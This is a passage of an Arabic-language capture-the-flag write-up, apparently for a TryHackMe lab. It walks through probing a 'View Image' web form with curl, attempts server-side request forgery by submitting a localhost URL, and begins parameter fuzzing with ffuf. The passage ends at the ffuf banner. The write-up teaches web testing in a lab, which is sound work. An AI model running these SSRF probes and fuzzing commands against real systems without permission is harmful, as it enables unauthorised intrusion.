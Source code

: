 ```bash
Date: Wed, 09 Apr 2025 20:08:58 GMT
Connection: keep-alive
Content-Type: text/html; charset=utf-8
Allow: OPTIONS, POST
Content-Length: 178

$ curl http://10.10.147.141:8080/view_image -X POST
<!DOCTYPE html>
<html lang="en">
...
<body>
    <h1>View Image</h1>
    <form action="/view_image" method="post">
        <label for="image_url">Enter Image URL:</label><br>
        <input type="text" id="image_url" name="image_url" required><br><br>
        <input type="submit" value="View Image">
    </form>
</body>
</html>
```
بعد ما غيرنا صيغة الطلب قدرنا نشوف محتوى الصفحة، هذي صفحة بسيطة ترسل لها رابط وتطلع لك الصورة، خليني أجرب أرسل رابط:
```bash
$ curl http://10.10.147.141:8080/view_image -X POST -d "image_url=https://www.almazarat.com/blog/Holy-Kaaba"
...
<body>
    <h1>View Image</h1>
    <form action="/view_image" method="post">
        <label for="image_url">Enter Image URL:</label><br>
        <input type="text" id="image_url" name="image_url" required><br><br>
        <input type="submit" value="View Image">
    </form>
    
    <img src="https://www.almazarat.com/blog/Holy-Kaaba" alt="User provided image">
</body>
</html>
```
يا سلام. الآن جاوبنا على سؤالين، السؤال الأول كان " هل هذه الخاصية -رفع صور عبر الرابط- موجودة الآن؟- والإجابة نعم. السؤال الثاني "هل يوجد صفحة مخصصة لهذه الخاصية؟" والجواب نعم. السؤال الثالث كان عن طريقة رفع الصور وأعتقد أنه واضح. خليني أسأل سؤال... إيش المتغيرات اللي أنا أتحكم فيها؟. هذا السؤال تعلمته من [هذا التحدي](https://tryhackme.com/room/cryptofailures). السؤال أعجبني جدا. في هذه الحالة المتغير اللي أقدر أتحكم فيه هو الرابط حق الصورة، وأنا أعرف من خبرتي البسيطة أن فيه نوع من الثغرات يكون متواجد في حالة كان المستخدم يرسل روابط للسيرفر، هذه الثغرة هي SSRF خليني أجرب أرسل رابط ل localhost
```bash
$ curl http://10.10.212.25:8080/view_image -X POST -d "image_url=http://localhost:8080/gallery"
...
    </form>
    <img src="http://localhost:8080/gallery" alt="User provided image">
</body>
</html>
```
أنا رسلت طلب وأعطيت السيرفر رابط localhost واللي يعني السيرفر المحلي، يعني المفروض إذا كان فيه ثغرة راح يعطيني محتوى صفحة gallery لكن تلاحظ أن السيرفر حط الرابط على إنه السورس حق الصورة، خلينا نشوف إذا عندنا parameters ثانية:
```bash
$ ffuf -u http://10.10.212.25:8080/view_image -d "FUZZ=http://localhost" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt  -t 20 -H "Content-Type: application/x-www-form-urlencoded" -fs 823

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
```